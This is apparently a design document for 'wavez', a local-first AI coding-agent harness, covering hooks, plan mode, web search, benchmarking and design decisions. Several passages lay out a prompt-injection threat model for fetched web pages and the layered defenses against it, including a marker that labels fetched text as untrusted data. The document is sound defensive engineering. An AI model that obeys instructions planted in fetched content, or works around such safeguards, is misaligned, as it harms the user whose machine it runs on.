It is a command rather than a gate. Intent is not decidable from the call graph, and a blocking check would earn itself one allowlist entry per finding until it decided nothing, which is what happened to the deterministic risk score. It exits nonzero when anything outside the allowlist is unreachable, so anyone who wants it enforced can wire that themselves.

### Table stakes (M1 unless noted)

Features nobody praises and everybody misses. Copied from Claude Code, Codex, OpenCode, Crush, and Aider, in the milestone they are needed.

- Resume and continue a thread, and `-p` with JSON output carrying the numbers the benchmark harness scores on
- `@file` and `@symbol` mentions resolved from the code-intelligence store before the prompt reaches the model, so a named symbol costs no retrieval turn: measured on qwen3:8b, `@looksLikeQuestionToUser` answered in one turn with no tool call where search-then-read would have taken three. A symbol expands to its kind, location, signature, and first doc line rather than its body, since that is what lets a small model decide whether reading further is worth a turn. A reference that resolves to nothing stays literal in the prompt and is reported, because silently dropping it leaves both the user and the model guessing why nothing arrived, and an ambiguous name lists its candidates rather than picking one
- Checkpoint and undo of file changes per turn, from `jj op log` rather than snapshots wavez writes itself
- LSP diagnostics fed back after an edit as a gate, the way Crush wires LSP into its loop
- Two hooks, pre-tool-use and post-tool-use, as external commands named in `.wavez.pkl` as an argv and run without a shell. The payload is JSON on stdin (event, thread, tool, input, paths, and the result for post) because tool input is arbitrary and unbounded where the environment is neither, and the exit status alone carries the verdict so a stray `echo` in a hook cannot change its own answer. Pre-tool-use fails closed: a timeout, a missing program, or any nonzero exit refuses, since a hook that an attacker or a typo can disable by breaking it protects nothing
- A hook runs after the guard and the permission gate, never instead of them, so it may object to a call they allowed and can never admit one they withheld. Its output goes to the thread log and not to the model: a refusal reaches the model as a fixed string, because a hook's own text steering the next turn would be the policy-input channel the Safety section rules out
- Model switch and thinking toggle mid-thread (`m` and `t` on the thread view, and palette verbs), cost and token counters in the header. A pinned tier is named in the header instead of the model, because a pin is not recoverable from a model name, and a failure while pinned says so with the way out: routing never retries a pinned tier that just failed, so a user left on a dead one would otherwise be stuck
- Thinking is a per-request field rather than a server flag. `--chat-template-kwargs` sets llama-server's default in both directions, and the chat-completions body overrides it either way, so the toggle costs no model reload. Measured on qwen3:8b: replying "OK" costs 79 completion tokens with the reasoning trace on and 2 with it off, and on the edit loop (`_ai_/demos/thinking-budget/`) thinking on or capped at 256 lands the same edits as off at 1.7-2.8x the wall time, so off stays the default. Nil is not false, since a request omitting the field must not silently flip whatever the server was started with
- Snippets: a phrase the user retypes into prompts ("use the question tool liberally", the house rule for resolving merge conflicts) saved once and completed with `Tab` in the composer's insert mode, matched the way the palette matches. `Tab` is free there because the panel cycle already ignores it while composing, so the completion costs no existing binding. Stored as JSON rather than pkl, because the composer writes them back and pkl is for configuration a human authors by hand. Two files, per laptop in the user config and per repo beside `.wavez.pkl`, so a project's conventions travel with the project and personal habits do not. A snippet expands to literal text in the composer before the prompt is sent, never to a reference the model resolves later, since a phrase the user cannot read before sending is one they cannot correct. It reaches the model as part of the prompt and carries no standing beyond it, so nothing a snippet says can widen what a tool is allowed to do (M2)
- Image and screenshot input (M2), notifications on needs-input and done (M2)
- Repo map from the store as cheap default context, after Aider (M2)
- MCP client, connected per thread on demand from an allowlist in `.wavez.pkl`, never all up front (M3). It is the second choice by default: a capability with a command-line form is reached through `shell` and named in `shellAllow`, which costs no preamble and inherits the guard. See the Decisions entry, and note what that leaves MCP for, which is a service with no command to run
- Plan mode is a thread whose tools are read-only, not a separate mode. The registry is narrowed rather than the advertised tool list alone, so a model naming a tool it was not offered is refused instead of served. Shell is out, because no deterministic check decides whether a command a model wrote only reads. A plan thread also needs its own system block: with the ordinary one it has no finish line, and qwen3:8b asked to rename a constant made 30 searches and 25 reads across 57 turns, stopping only on the spend ceiling without ever attempting an edit or producing a plan. Told instead that it cannot edit and that the deliverable is the plan, the same task took 5 turns

### Project instructions

Wavez does not auto-load `AGENTS.md`, `CLAUDE.md`, `.agents/`, or `.claude/`. Most of what those files carry (test commands, lint rules, style) is what gates and routines do deterministically, and the rest is repo text the model reads on every turn.

- `.wavez.pkl` has an explicit `context` list of files or headed sections (`AGENTS.md#architecture`) that enter the stable prefix
- `wavez import agents-md` lifts recognizable command blocks out of an existing file into routines once, so that section can be dropped from `context`
- `--with AGENTS.md` on one thread covers the one-off case without changing the persisted config
- Skills in `~/.claude/skills` are not inherited. The user maps what they want into `context` or routines

### Web search (M3)

Shipped as `internal/web` plus two tools. One search, one fetch, both read-only, and everything they return is untrusted by construction.

- **The search backend is configuration, not a build.** `webSearchURL` names a SearxNG instance; empty searches through DuckDuckGo's HTML endpoint. Neither stores a key or uses an account, which is what ruled out Brave and Tavily: searches are infrequent here, so a key and a quota buy little, and the keyless path costs nothing to leave running. DuckDuckGo's markup is the fragile part and is the reason the SearxNG path exists beside it
- **The defenses that hold are the ones the model cannot argue with.** A page can carry text written to read as an instruction and a run acts on tool results, so what protects the machine is deterministic: the request carries no credential and has no way to (no cookie jar, no headers, no body, and a URL carrying userinfo or anything credential-shaped is refused before the connection is made), it is refused at dial time if the host resolves to a loopback, private, or link-local address, a redirect may not change host, the body is capped, and only text comes back
- **Provenance decides what may be fetched without asking.** A host one of this thread's own searches returned is fetched straight away; any other goes through the permission gate naming the host. That is the line between a page the model found and a page a fetched page pointed it at, and the second is the one an attacker chooses
- **The untrusted boundary is last on purpose.** Fetched text is handed over inside a marker that says it is data, with any copy of the marker in the page escaped so it cannot be closed early. It is the only defense here that depends on the model believing it, which is why it is the one thing nothing else rests on. It says so in the tool result rather than in the system prompt, so it costs nothing on the turns that never fetch
- Version pinning stays a prompt matter: the schema asks for the library and version in the query, because an answer about a different version is worse than no answer
- Dash docsets as a local first hop remain deferred

### Benchmark (harness M3)

The thesis is "fewer tokens, faster, same or better code", so it needs a harness early enough to measure M3 against M1.

**The external comparison is cut.** Adapters for Claude Code and OpenCode, a shared sandbox, and a scoring rubric are a program in their own right, and what they would produce is a claim to other people about a tool with one user. The replay set already answers the question that changes what gets built next, which is whether a change made this harness better than it was yesterday on the same task. The reference shapes stay recorded (opencode-bench for the task set and adapters, Harbor and Terminal-Bench for sandboxed execution and scoring) in case that ever stops being true.

- Tasks come from real commits in the user's repos, replayed from the parent tree with the commit message as the prompt and the real diff plus the repo's own tests as the oracle, the same method as `_ai_/demos/intent-edits/corpus`. Twenty to thirty tasks stratified by size and kind (add, change, fix, refactor, cross-file).
- Metrics per run: pass rate against tests, output tokens, input tokens, cache hit share, wall time, hosted cost, turns, tool calls, malformed calls, gate failures, and the share of the final diff produced by resolvers and Modifiers versus model text. The last one is the number that proves or refutes the design. `wavez -stats <thread>` already reports most of them from a finished run's log, which is what makes a single lane measurable before the task set exists: turns, tool calls by name with the bytes each returned, tokens in and out with the cache share, reads that returned a file unchanged since the last read of it, searches that matched nothing, gate rounds and failures, review objections, and what compaction saved
- Two lanes: local-only (qwen3:8b, no network) and hosted-allowed. Reported separately, since the local lane is where the deterministic layer has to carry the most
- Output is one table per model lane plus a per-task drill-down, written to `_ai_/bench/` with the run's SHAs, and rerunnable from one command in a routine
- `wavez -replay <task>` is the single-task half of that, and it is what a lane is judged on today. It runs one prompt from `_ai_/bench/timing/tasks.txt` in a jj workspace, so a task naming the files it edits starts from the same tree every time, and appends one record: the task and a hash of its prompt, the lane label (the commit, unless named), the tier and turn cap it ran under, the stop reason, the checks, and the whole `-stats` summary. The run's thread log is copied back into the project before the workspace goes, since the counters say what changed and the transcript says why
- A task carries its own oracle, because `complete` is the loop's verdict on itself and says nothing about whether the work is right: one fast-tier run finished a question task with a confidently wrong count. A check is `path:substring`, `answer:substring` against the run's final text, `build:<pattern>` or `test:<pattern>` for a go command, or any of them with a leading `!`, evaluated in the workspace before it is removed. Substrings alone are not enough on their own: a rename that missed a caller in a second file passed every substring its task had, and the compiler is what caught it. A run that ends `complete` with a failing check is a failure, and the report carries both
- `-replay-report <task>` prints every recorded run of that task and diffs it against the most recent earlier run that took a turn. It says so when the pair ran under different tiers or caps, or when the task's own text changed between them, because either makes the diff measure something other than the lane
- Extreme-ends performance set, run on a cadence and before each version: index a 500k LOC monorepo cold and after a one-file change, twenty threads streaming with three gates running, a 100k-row transcript opened and searched, an 8k-token prompt against the local model's served window with compaction on, memory ceiling with the model loaded plus a Go test suite plus a compose stack, `.wavez.pkl` reload under a burst of file events, and the TUI at 80x24 and 200x60 with all panels. Each has a budget (index time, p95 frame time, RSS, event lag) recorded in the diagnostics numbers, and a regression fails the release routine

## Decisions

Y-statement form: in the context of, facing, we decided, to achieve, accepting.

- In the context of one fixed prefix serving every tier, facing whether the fast tier and the hosted tiers should be shown the same tool surface, we show the fast tier a narrower one, to spend its window on the task rather than on tools it does not reach for, accepting that a fast turn needing an omitted tool escalates to get it. The same bytes are 30% of what a fast turn can use and 1.8% of a hosted one, an 18x difference for identical content, and the tiers are served by different processes (llama-server on loopback, OpenRouter) so they keep separate prefix caches: narrowing per tier costs nothing where narrowing mid-thread would invalidate the 77% of input tokens the cache serves. It is a budget and not a permission, so the registry keeps every tool and only the advertisement changes; plan mode narrows the registry instead, which is what makes a tool unreachable
- In the context of Go conventions the prompt was carrying, facing whether a rule belongs in the preamble or in a gate, we added a `lint` gate and left the preamble only what no gate answers, to stop paying on every turn for rules a tool checks for nothing. `FormatGate` ran `golangci-lint --fix` and discarded the exit status, so an unfixable finding reached nobody until CI: the prompt was the only mechanism, which is why the rules were there. With the gate reporting them the injected section fell from 294 tokens to 113, and the full list stays in AGENTS.md for a human reader
- In the context of a fixed preamble that costs every turn, facing a preamble chosen per task against one held stable across a thread, we hold it stable and choose the tool set once at thread creation, to keep the provider's prompt-cache prefix valid, accepting that a thread cannot narrow its tools after it learns what the task needs. Measured over 87 recorded runs, 77% of all input tokens are served from the prefix cache (79% on the 43 fast-only runs), and the preamble is the head of that prefix: changing it mid-thread re-evaluates everything after it. Saving 1,000 preamble tokens per turn does not pay for re-evaluating a 20k-token history once. `registry.Only` already narrows the set at creation, which is how plan mode works and is where a per-task set belongs
- In the context of the tool surface being 84% of the preamble and 69% of that being prose, facing whether a schema should teach or a failure should, we put failure-mode prose in the error and keep only what a model cannot discover by failing, to stop paying on every turn of every thread for advice that pays for itself once, accepting that the first occurrence of each mistake now costs a turn. Measured with `wavez -preamble`: 3,029 tokens to 2,736 for the prose cut alone, with the schema structure untouched at 448, because structure is the grammar a fast turn decodes under. `TestTheErrorsCarryWhatTheSchemasStoppedSaying` pins each cut clause to the error that now carries it
- In the context of reaching a capability wavez does not ship, facing an MCP server against a CLI run through the shell, we reach for the CLI first and keep MCP for what has no command-line form, to stop paying preamble on every turn of every thread for a capability used on few of them, accepting that a CLI's output is text the model parses rather than a typed result. The cost is measured rather than assumed: `wavez -preamble` puts the tool surface at 3,354 tokens, and a tool costs 121 to 459 of them in description alone, every turn, forever. A CLI costs nothing, because `shell` is already advertised and `shellAllow` is how a project says which commands run without asking. On the fast tier that difference is the whole argument, since its preamble is already 37% of a 7,168-token usable window and four MCP tools would take another fifth of what is left. It also inherits the guard, the sandbox, and the permission gate that `shell` goes through, where an MCP server is a second execution path that would need its own. MCP earns its place where there is no command to run: a service reached only over a protocol, or a server whose state has to persist across calls
- In the context of other tools reaching wavez, facing shipping an MCP server against the binary it already is, we stay a CLI, to be scriptable by anything that can run a process, accepting that an editor wanting structured access gets `wavez lsp` rather than a tool schema. `wavez -p` already answers one prompt and `-json` already prints one object

- In the context of a single-binary low-RAM agent, facing Go vs Rust vs TypeScript, we chose Go with Bubble Tea v2, to reuse Crush's proven patterns and the user's Go tooling, accepting that jcode (Rust) will stay leaner
- In the context of Crush's FSL-1.1-MIT license and its `internal/` layout, facing fork vs copy, we copy its tool loop and TUI patterns into our own code, to keep the surface small and avoid the FSL window, accepting slower start than a fork
- In the context of per-project config, facing pkl vs CUE vs TOML, we chose pkl through `pkl-go` with one long-lived evaluator, to get typed schemas with `amends` and share the mental model with hk, accepting a `pkl server` subprocess (~30 MB RSS) and a pre-1.0 Go binding. Measured in the since-removed `_ai_/demos/pkl-routines` demo: ~130 µs warm, 10-14 ms cold, so no cache layer is needed
- In the context of gates shipping as routines, facing routines that own the gates vs gates that stay a separate pipeline the routine layer wraps, we keep `internal/gate` as it is and expose each gate as a `gate.<name>` action plus a `gate-<name>` built-in routine, to let a project override or disable a gate from `.wavez.pkl` without the gate code learning about routines, accepting that a built-in's change trigger is the gate pipeline itself rather than the routine runner, so the built-ins declare only the manual trigger and running one from the panel is the same check on the whole tree
- In the context of a gate that judges test quality rather than correctness, facing one failure channel vs separating blocking from advisory, we split `gate.Result` into `Failures` that reach the model and hold the verification round open and `Advisories` that reach only the gate log, and we put the fail-to-pass and mutation verdicts in the second, to keep a run from being told to fix something whose cheapest fix is writing whatever silences the check, accepting that a weak test now ships and is noticed by the user after the fact rather than by the run that wrote it
- In the context of a long-running thing a routine needs (a compose target, a database, a fake API), facing a second scheduling concept against extending Routines, we declare it as a `services` entry and hold it from a step with `service.up` and `service.down`, to keep one scheduler and one place to look, accepting that a routine now has a step whose effect outlives it until a matching release. The holds are counted, which is the whole reason it is declared rather than left running: a service is worth declaring because it is expensive, so two routines wanting the same database must not start it twice and the first of them to finish must not take it from the second. `up` and `down` are two actions rather than one with a direction, because an absent field must never mean "stop"

- In the context of running a CLI from a routine, facing a shell string vs an argv, we take only an argv with a `dir` contained in the project root, to keep a routine from becoming a place where a pipeline or a redirect slips past the sandbox, accepting that a step needing shell features has to name a script the project checks in
- In the context of code intelligence, facing one external index (codegraph, Codanna, Serena) vs an own store, we own the SQLite schema and the tree-sitter, FTS, vector, and coverage indexers in Go and take `codegraph` as an edge adapter, to keep the central store under Wavez's control and let every subsystem query one file, accepting that call-edge resolution depends on an external binary until an own resolver replaces it per language
- In the context of retrieval for a small local model, facing embedding RAG vs graph and lexical first, we make fuzzy plus graph the primary path with a repo map and one-hop neighbourhood on the first turn and semantic search a secondary mode, to fit a 4-32k window in one or two turns, accepting weaker recall on natural-language questions until the semantic mode is measured
- In the context of workflow semantics, facing embedding a Go workflow library vs writing a scheduler, we write a small in-process DAG runner, to keep it single-process and testable, accepting that we own it
- In the context of repeatable ways of working (fix a bug, add a feature, run a migration), facing a Skill-style prompt bundle vs a phased process the harness can refuse to advance, we ship Cycles whose phases exit on a Condition the harness evaluates, to make "did the step actually happen" a check rather than a claim, accepting that we own a second scheduling concept beside Routines and that a determined model can still satisfy a weak Condition dishonestly. The mechanical half of the argument: a skill loads context because the model judged it relevant, which is a prefix that changes partway through a task, and that is the case compaction is built to avoid at a measured 5-7x the cost of an append. It also makes the router's token estimate a moving number. Decomposed, a skill is an `ast-grep` rule, a Routine, a Cycle, and a `context` entry, all of which exist; what is lost is that a skill is one file to author and the decomposition is four, which is pressure to make Routine and rule authoring better rather than to add a fifth concept
- In the context of what a phase carries forward, facing a compacted narrative vs a typed ledger plus re-derivation, we carry the standing goal, the change set, and a ledger of falsified hypotheses and re-read everything else on demand, to keep a multi-phase run's context flat rather than growing, accepting that the model's reasoning prose is discarded and that some of it was worth more than the ledger row it collapsed to. Measured at 2.4% of a real transcript being content no tool can reproduce
- In the context of a Cycle's exit conditions, facing an artifact the model names (a log line, a command whose output flips) vs one the harness can re-run itself, we accept only tests the change set declares as the artifact the reproduce and fix conditions probe, to keep the phase boundary a measurement, accepting that a bug reproduced by a script has to be wrapped in a test before the phase can end. The condition names are a fixed list in code rather than a pkl expression for the same reason, and because wavez ships no plugin system
- In the context of a phase's exit condition not holding, facing retrying until it does vs a bound, we give each phase a small attempt bound (default 2) and end the Cycle as `condition_unmet` with the last verdict's reason once it is spent, to make a Cycle that could not do the work say so, accepting that a phase one turn short of its artifact ends the same way as one that never got close
- In the context of one config serving two laptops of different sizes, facing a local-and-hosted pair vs tiers named for the job, we ship `fast`, `balanced`, and `deep`, each naming its own model and endpoint, to let a machine decide which tiers run on-box without the router or the interface learning where anything is served, accepting that "balanced" says nothing about cost or latency on its own and that a reader has to open `.wavez.pkl` to find out what answers a turn
- In the context of a tier whose provider fails, facing one escalation to the top vs a step per failure, we move up exactly one tier per failure and stop when the top tier fails, to give a middle tier the chance to do work the top tier used to be paid for, accepting that a pin no longer holds a thread on the tier it names once that tier fails
- In the context of the sandbox, the destructive-command guard, and edit scope, facing rules that try to be airtight vs rules that stay simple and leave an audit trail, we put hard fences only where a mistake cannot be undone and let everything else run while recording what it did, to spend the complexity budget on the mistakes agents actually make rather than on an adversary this layer cannot stop, accepting that some recoverable damage lands before anyone reads the record
- In the context of a change that is wrong rather than unverified, facing another deterministic check vs a model reading the diff, we have a model read the task against the run's diff and let an objection stand unresolved on a completed run, to catch the one failure the gate layer provably cannot, accepting that the check is judgment and can be wrong in both directions. Measured: coverage, the fail-to-pass gate, and mutation testing each passed the same incorrect change, and a text-level check for the task's own quoted literals flagged the correct change too
- In the context of proving a check checks anything, facing coverage thresholds vs mutation testing, we mutate the changed lines and run them against their covering tests, to answer the question coverage cannot, accepting the cost of owning AST mutation operators because no Go tool offers a diff-scoped mode. It runs on demand rather than in the verification round: 6.35 s per mutant at package-level selection makes a 30-mutant change 190 s, and only the coverage map brings that down
- In the context of a run's throwaway files, facing a model-visible scratch directory vs letting them land in the repository, we ship no scratchpad, to avoid paying prose in every prompt for a placement the model is free to ignore, accepting that a script a run writes for itself shows up in the diff. Built once and reverted: the sandbox already has a per-run session directory, and exposing it took only a line in the system prefix plus an exemption from the change set. Measured on qwen3:8b, the model wrote its script to the repository root anyway. The line cost tokens on every request of every thread and changed nothing, which is the same result the system prompt's own doc comment already records for prose about tools. A file a run invents is visible in the diff, and that is the surface that already works
- In the context of hook events, facing the six to eight other harnesses carry vs the two we ship, we hold at pre-tool-use and post-tool-use until M2, to avoid an event with nothing behind it, accepting that a thread-finished hook is the one candidate with a real job and that notifications are what it is waiting for. Session start is covered by the `context` list and the ledger, prompt submit by mention expansion, pre-compaction by compaction being deterministic, and a permission-time hook is redundant with pre-tool-use running behind the guard and the gate
- In the context of tracking what work remains, facing a task list the model maintains vs the ledger and a Cycle's phases, we keep both halves in the harness and ship no model-authored list, to avoid trusting a claim about progress, which is the thing Cycles exist to stop trusting, accepting that a long task has no live checklist on screen until the schedule view lands. The human-facing half is a different thing: a progress line and a wall-clock estimate derived from the thread's own events, which the model never reads, so it can be wrong without making a run wrong
- In the context of prose the model writes, facing one agent row type vs typing by turn shape, we type a tool-free run-ending turn as an answer and a turn that precedes tool calls as a note, rendered unfolded and folded respectively, to separate what must be read from what is good to know without asking the model to label its own output, accepting that a note which was really an answer is one keypress away rather than on screen
- In the context of many threads and one local server, facing one slot per thread vs slot save and restore vs serializing local turns, we run as many slots as the served window's KV memory leaves under the admission headroom and serialize the rest, to keep every thread's cached prefix warm without paying disk restores, accepting that a fleet on the local tier is no faster than N threads. The `kv-slots` spike found the switch already free under one slot on current llama-server, so the open cost is the RAM prompt cache, not prefill
- In the context of trimmed tool output, facing no way back vs a new tool vs a `read` by id, we write the full output under the session directory and let `read` fetch it by the id the marker carries, to keep the prefix the same size, accepting one extra `read` where a model needs the middle of a long output
- In the context of allow-always answers, facing per process vs per project, we persist them under `.wavez/`, to stop re-asking about the same test command after every restart, accepting that an unattended run after a restart may do whatever was allowed once, which is the security tradeoff for one user on one laptop and is revoked by deleting one file
- In the context of the local runtime, facing Ollama vs llama-server on the same engine, we serve through `llama-server` and keep Ollama for model management, to get n-gram speculation, tunable prefix reuse, and grammar-constrained output, accepting that Wavez manages the server process and GGUF path itself
- In the context of a 16 GB M2 Pro, facing local-only vs hosted-only vs router, we run local first with escalation to OpenRouter after one failure or on task shape, to keep routine edits offline and cheap, accepting that multi-file work will mostly go hosted
- In the context of a z.ai coding plan alongside pay-per-use OpenRouter, facing one hosted provider vs a dialect per provider, we name the backend from the endpoint's host and carry each provider's own keys, to put every network tier on the subscription while OpenRouter stays one config field away, accepting that a per-token cost ceiling has no price for a flat plan and that a provider z.ai serves under a host wavez does not know reads as a llama-server
- In the context of `deep` and `balanced` both serving GLM-5.3 on that plan, facing a second model vs a second setting, we separate them by the reasoning toggle, to keep an escalation from re-running the failure on the model that just produced it, accepting that the two tiers share weights and that the separation is weaker than two models were
- In the context of a second laptop with more memory on the same network, facing moving the on-box tier there vs keeping it loopback only, we let a tier's `baseURL` point it at a remote `llama-server` and keep the loopback supervisor for the empty case, to run a model two tiers up at the same wire cost as loopback, accepting that admission and the memory gauges describe only the laptop the daemon runs on and that the endpoint's safety rests on the tailnet rather than on Wavez. Not pursued: a tier is configured as hosted or as a small local model, and the probe that would have sized a big model on the other machine is off the roadmap. The `baseURL` field stays because it is one config field and it is what makes the choice a configuration rather than a build
- In the context of picking the hosted model, facing the cheapest coder model vs a reliably tool-calling one, we rank native tool-call reliability above price and default to `openai/gpt-5-mini`, to make the escalation tier actually able to act, accepting roughly 4x the input price of the cheapest option and a closed-weight default. A turn that writes its tool call as prose is caught and failed rather than reported complete, since a model that changes nothing must never look like one that succeeded
- In the context of coordination between threads, facing worktrees vs directories, we key locks and identity on directory subtrees, to match how agents actually write (6.8% of writes leave the cwd), accepting that isolation of dependencies is the project's job
- In the context of lease granularity, facing per-file locks vs the directory holding the write target vs the thread's directory set, we lease the write target's directory and take it where the write happens, to catch the near-miss collision (two threads in one package, different files) that file locks miss and to attribute a write to the thread that made it rather than to where it started, accepting false contention on wide directories and that a shell write the guard does not recognize takes no lease. Measured in `_ai_/notes/agent-lock-coordination.md`: directory-level collisions run 2.2x file-level, and a fifth of writes bypass the file tools
- In the context of two lanes writing one checkout, facing a jj workspace or an APFS clone per lane vs serializing writers vs scoping what the gate reports, we keep the one tree and scope the report, to fix the failure that actually happened (both lanes lost work to a report, not to a collision) without a per-workspace `.wavez/index.db`, coverage manifest, and gopls index, accepting that a lane can still read a file another lane is mid-write and that real isolation stays available if the scoping proves insufficient. It also helps the solo case, where the tree is dirty from the user rather than from a lane
- In the context of undoing a turn while another lane writes, facing a whole-repo `jj op restore` vs always reverting the run's own paths vs refusing, we let the scheduler pick: alone in the tree a lane gets the operation-log restore the VCS ADR was chosen for, and with another writing lane live it degrades to reverting its own changed paths, accepting two mechanisms behind one request and that the degraded one cannot undo a shell write the guard did not see
- In the context of pausing a thread from the schedule view, facing a pause verb vs kill alone, we ship kill (`x`) and no pause, to avoid a state that holds the model's memory while doing nothing, which is what admission exists to prevent, accepting that stopping a turn loses it
- In the context of safety, facing prompts-only vs sandbox, we run Seatbelt plus a deterministic destructive-command guard with prompts for the remainder, to make catastrophic actions unreachable rather than discouraged, accepting some setup per project
- In the context of VCS, facing git-only vs jj-only vs both, we chose jj alone in a colocated repo and pulled it forward from M4, to get per-turn checkpointing and undo from the operation log instead of writing our own snapshots, accepting that every machine running wavez needs jj installed. jj snapshots the working copy on every command, so an agent's checkpoint is a side effect of working rather than a feature. Colocated is what jj's own GitHub guidance recommends and is required here anyway, since hk installs its hooks through git config
- In the context of the web tools, facing a keyed search API (Brave, Tavily) vs a local SearxNG vs scraping DuckDuckGo's HTML, we made the backend a config field defaulting to DuckDuckGo, to keep a rarely used capability free of a key, an account, and a service to run, accepting that their markup changes without notice and that the fix when it does is to point `webSearchURL` at a SearxNG instance
- In the context of a fetched page carrying text written to read as an instruction, facing a marker that says the text is data vs a judge model over every tool result vs restricting fetch to searched hosts, we did the deterministic ones first (no credential can ride on the request, a private address is refused at dial time, a redirect may not leave the host) and gated an unsearched host behind permission, keeping the marker as the last layer, to make the protections independent of what the model believes, accepting that a run whose user approves every prompt is back to trusting the page and that no layer here detects an injection as such
- In the context of remote access, facing native app vs PWA vs SSH, we chose Tailscale plus a PWA plus push, to ship in days with no App Store or server, accepting that the laptop must stay awake
- In the context of extensibility, facing plugins vs built-in tools, we ship no plugin system, to keep the tool surface auditable and small, accepting that new tools mean code changes
- In the context of edits on a slow local decoder, facing search-and-replace, unified diff, whole-file, or hashed line ops, we ship `str_replace` with a fuzzy fallback and escalate after one failed edit, to use the format the model already knows and keep output tokens low, accepting weak local edit success until Modifiers and intent edits carry most changes (hashline measured worse on qwen3:8b)
- In the context of a polyglot monorepo, facing name-matched cross-language edges vs contract nodes, we add contract nodes and confidence-tiered bridge edges with generated clients and E2E network logs as ground truth, to select tests across the frontend and backend seam, accepting that hand-written fetch calls stay low-confidence
- In the context of structural rules, facing Semgrep vs `ast-grep` vs native linters only, we embed `ast-grep` for gates, codemods, and convention rules and keep Semgrep CE as an opt-in routine for taint and diff-aware risk, to get a fast MIT engine on every edit and avoid the registry license, accepting that cross-file taint needs Semgrep Pro
- In the context of project instructions, facing auto-loading `AGENTS.md` and `CLAUDE.md` vs explicit opt-in, we list context files and sections in `.wavez.pkl`, to keep token cost and prompt-injection surface fixed and to avoid re-stating what gates already do, accepting a one-time mapping step for repos with a mature `CLAUDE.md`
- In the context of editor integration, facing ACP vs the daemon's own socket API, we ship a small `wavez.nvim` over the socket API first, to keep one API for every client, accepting an ACP adapter later if Neovim gains native support
- In the context of shipping a binary, facing pure-Go portability vs tree-sitter's cgo bindings, we build darwin-only with cgo enabled, to keep tree-sitter and take the Seatbelt sandbox that is macOS-only anyway, accepting that a Windows or Linux port needs a second sandbox and a pure-Go parser behind the same interfaces
- In the context of the diagnostics panel, facing scraping `llama-server`'s `/metrics` vs parsing the `timings` block already on every stream, we parse `timings` into the usage the loop records anyway, to keep every gauge a view over what the daemon already has and to attribute decode speed to the turn that produced it, accepting that a hosted provider reports no timings and its row stays a dash. Scraping would have added a poller, a second source of truth, and a number with no thread behind it
- In the context of model management, facing a pruner that removes what wavez thinks is unused vs deliberate named actions with a preview, we ship list, check, install, and remove as daemon commands where install and remove first report the disk delta and act only on a confirmed second request, to keep Ollama's other users safe on a shared machine, accepting that a stale model stays until someone names it
- In the context of compaction, facing client-side rewriting vs append-only trimming, we trim append-only and summarize residue with a local model, to keep prompt caches valid, accepting more tokens per turn than aggressive rewriting
- In the context of the fleet Home and a phone client, facing one daemon per root that `w` reconnects between vs one daemon per laptop serving several roots, we chose one daemon per laptop on a user-level socket (`<user config dir>/wavez/d.sock`) that loads a project the first time a request names its root and never unloads it, to keep one address for every client and one API for the fleet, accepting that the memory-aware scheduler is one per laptop and that a project's admission headroom no longer applies per root

- In the context of code shared with the sibling terminal tools, facing a package copied into each one against a shared module, we take [aragonite](https://github.com/KyleKing/aragonite) wherever it already holds the thing and extract into it wherever a second consumer appears, to stop maintaining one behavior in several repositories, accepting a `go.work` pointing at a sibling checkout while a change spans both. Aragonite's rule is that a package earns its place by having a real consumer rather than by being general, which is why its `vcs`, `tui/theme`, `tui/table`, `tui/markdown`, `tui/region`, `cache`, and `transport` came out of gh-repo-dashboard rather than out of a design. This project is the second consumer for several of them and the source for `codeintel`, which aragonite's README already lists as planned. The order is what makes this cheap: take a package when the work touches it anyway, so M4's VCS layer is where `internal/vcs` meets aragonite's `vcs` rather than a migration of its own
- In the context of a copier-managed render inside a jj repository, facing whether the update procedure needs a jj-shaped variant, we keep `copier update` as written and require the working copy to be committed first, to use the tool as it is, accepting that a non-colocated jj checkout cannot be updated at all. Read from copier 9.17's `run_update` and confirmed here: it refuses a subproject whose VCS is not git, so the `.git` a colocated repo keeps is what makes this work and a bare `jj git clone` without `--colocate` would not. It then refuses a dirty destination, and jj's auto-snapshot puts working-copy changes in front of git as unstaged modifications, so a jj working copy with anything in it fails that check exactly as a git one would. The recovery is `jj commit` and never `git stash`, which would fight the snapshot. The patch lands through `git apply --reject` into the working tree, which jj snapshots on its own, so there is no staging step to lose and the `.rej` files arrive in the working copy where the procedure expects them. One interaction is worth knowing: copier excludes every git-ignored path from the patch, so a file the template renders into an ignored location is skipped without saying so

- In the context of a run with nobody at the keyboard, facing whether unattended should also mean a wider ceiling, we keep the two separate, so unattended decides where a question is delivered and the permission mode decides what may run unasked, to stop "nobody is watching" from reading as "everything is approved", accepting that an unattended run parks on the first question it cannot answer. openworker draws the same line (`coworker/unattended.py` changes routing and not the autonomy ceiling) and adds that an unattended run never self-approves. Allow-always persistence is where this leaks here, because a grant made interactively survives into a later unattended run; that is the accepted tradeoff for one user on one laptop and is worth naming rather than discovering

## Milestones

Milestones, not version numbers: the released binary's version tracks whatever
has shipped, and tying it to this table made the two disagree. Each milestone is
done when its condition holds, and nothing here promises a release number.

| Milestone | Done when | Ships |
|---|---|---|
| M1 Loop | A single-thread edit on wavez or gh-repo-dashboard runs local, gates fire on the change, and the sandbox blocks a write outside the project | Home (single repo), thread view, inbox, palette, diagnostics strip, vim-layer controls, loop, `str_replace` edit tool with fuzzy fallback, `ast-grep` convention gate, code-intelligence store (symbols, FTS, edges via codegraph, coverage) with `search` and `context`, gates for Go (Python if the selection primitive is settled), Seatbelt + guard, router with OpenRouter escalation, `llama-server` runtime with n-gram speculation, `-p`, minimal compaction, ledger |
| M2 Fleet | Three threads across two directories run concurrently with leases and a visible schedule, and the fix cycle refuses to advance a phase whose condition does not hold. Both hold on the fake-loop harness (`internal/daemon/schedule_test.go`, `internal/cycle`). The fix cycle's refusal has also been watched on a real model run, recorded in `_ai_/bench/dogfood.md`, and the three-thread condition has not | Shipped: pkl routines, DAG runner, Cycles with the fix cycle, leases, schedule view, diagnostics panel, sub-threads and fork, routines panel, memory-aware admission, local model management, `llama-server` timings on the panel, the remote local tier, one daemon per laptop with fleet Home, composer snippets. Left for the ordered list below: recording a PTY session and promoting it to a test, semantic index and similarity notes, repo map, Semgrep routine with capability delta, per-model settings reaching the supervisor. The `pty` tool, the schedule trigger, and the thread-lifecycle triggers have since shipped |
